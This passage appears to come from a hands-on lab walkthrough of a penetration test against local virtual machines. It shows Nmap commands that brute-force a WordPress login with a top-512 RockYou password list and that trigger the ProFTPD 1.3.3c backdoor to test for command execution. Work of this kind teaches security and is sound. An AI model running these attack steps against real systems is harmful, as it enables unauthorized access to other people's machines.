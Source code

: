 ```bash
$ nmap --script-help '*wordpress*'
```

The script named `http-wordpress-brute` sounds appropriate.

Next, we need a dictionary of passwords for Nmap to try.  Daniel Miessler has
a few [password lists](https://github.com/danielmiessler/SecLists).  But I
think so poorly of this sysadmin that I'm willing to bet that the password is
one of the top 512 passwords revealed when RockYou.com was [hacked in 2009](
https://www.ghacks.net/2010/01/21/rockyou-hacked-some-30-million-passwords-in-the-wild-security/).

I have that dictionary in a file called `rockyou_top512.txt`.  Let's hand it over
to Nmap's WordPress BruteForce login script and see what happens:

```bash
$ nmap -sV --script=http-wordpress-brute --script-args=passdb=rockyou_top512.txt 192.168.56.16
```


## The moral of this story

Use care when choosing authentication credentials; choose a password that's
*not* in a well-known cracker dictionary.



# Exploitation Step 2: Sneak in through the back door

When we ran the in-depth service scan above, I noticed an **old** version of an
FTP server running on one of the boxes:

```bash
$ nmap -sV 192.168.56.16-20
```

Doesn't anybody patch their systems anymore?

On `192.168.56.19` there is a version of ProFTPD which seems familiar to me for
some reason...  Let's see if Nmap knows anything about ProFTPD.

```bash
$ nmap --script-help '*proftpd*'
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 23:09 MDT

ftp-proftpd-backdoor
Categories: exploit intrusive malware vuln
https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html
  Tests for the presence of the ProFTPD 1.3.3c backdoor
```


Oh yes, let's try that!  We'll try the backdoor and attempt to run the `id`
program, which will tell us both whether the backdoor is indeed present, and if
so, it will tell us whether we have administrator access to the system.

```bash
$ nmap -sV --script ftp-proftpd-backdoor 192.168.56.19
```
